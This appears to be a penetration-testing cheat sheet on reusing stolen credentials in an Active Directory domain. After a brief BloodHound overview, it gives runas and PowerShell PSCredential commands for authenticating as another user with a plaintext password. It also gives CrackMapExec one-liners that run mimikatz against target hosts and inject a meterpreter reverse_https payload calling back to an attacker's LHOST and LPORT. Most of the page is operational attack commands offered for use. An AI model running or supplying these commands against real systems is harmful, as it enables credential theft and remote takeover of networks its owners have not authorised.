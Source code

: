 # Active Directory - Credential Shuffle

### Overview

###### BloodHound

BloodHound uses graph theory to reveal the hidden and often unintended
relationships within an Active Directory environment. Attackers can use
BloodHound to easily identify highly complex attack paths that would otherwise
be impossible to quickly identify. Defenders can use BloodHound to identify and
eliminate those same attack paths. Both blue and red teams can use BloodHound
to easily gain a deeper understanding of privilege relationships in an
Active Directory environment.

### Exploit

#### Locally use credentials

Set the main DNS server on the attacking computer to the Domain Controller IP
address:

```
Control Pannel -> Network and Internet -> Network and Sharing Center -> Change adapter setting -> right click on the adapter being used -> Properties -> Internet Protocol Version 4 (TCP/IPv4) -> Properties -> Set the Preferred DNS server field  
```

To authenticate locally as another user (with plaintext credentials) and
execute Powershell commands use:

```
# runas
runas /NetOnly /user:<DOMAIN>\<USERNAME> powershell.exe

# For the commands supporting PSCredential
$secpasswd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<DOMAIN>\<USERNAME>", $secpasswd)
```

#### CrackMapExec

```
crackmapexec <TARGETS> -M mimikatz -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
# msf exploit(handler) > set payload windows/meterpreter/reverse_https
crackmapexec <TARGETS> -M metinject -o LHOST=<HOSTIP> LPORT=<HOSTPORT> -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
```

